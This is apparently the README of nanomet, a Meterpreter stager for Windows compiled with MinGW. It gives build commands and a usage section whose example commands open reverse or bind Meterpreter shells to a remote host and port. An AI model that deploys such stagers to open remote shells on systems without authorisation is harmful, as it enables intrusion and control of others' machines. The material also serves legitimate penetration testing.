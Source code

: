 [![Build Status](https://travis-ci.org/kost/nanomet.png)](https://travis-ci.org/kost/nanomet)

nanomet
=======

nanomet is tinymet modified to support compiling using mingw compilers.

A "nano" meterpreter stager.  Copyright (c) 2014, Vlatko Kosturjak - kost

Based on tinymet by Copyright (c) 2014, Sherif Eldeeb "eldeeb.net"
please visit http://tinymet.com for details

Usage
=======

Usage: nanomet.exe [transport] LHOST LPORT

Available transports are as follows:

* 0: reverse_tcp
* 1: reverse_http
* 2: reverse_https
* 3: bind_tcp

Example
========

use reverse_https and connect to host.com:443

    nanomet.exe 2 host.com 443

bind_tcp port 4444 on all interfaces

    nanomet.exe 3 0.0.0.0 4444


Building
========

Linux: 

    make CC=i586-mingw32msvc-gcc

Mac OS X:

    make CC=i386-mingw32-gcc

Microsoft Windows / Visual C++:

    nmake /f Makefile.vc

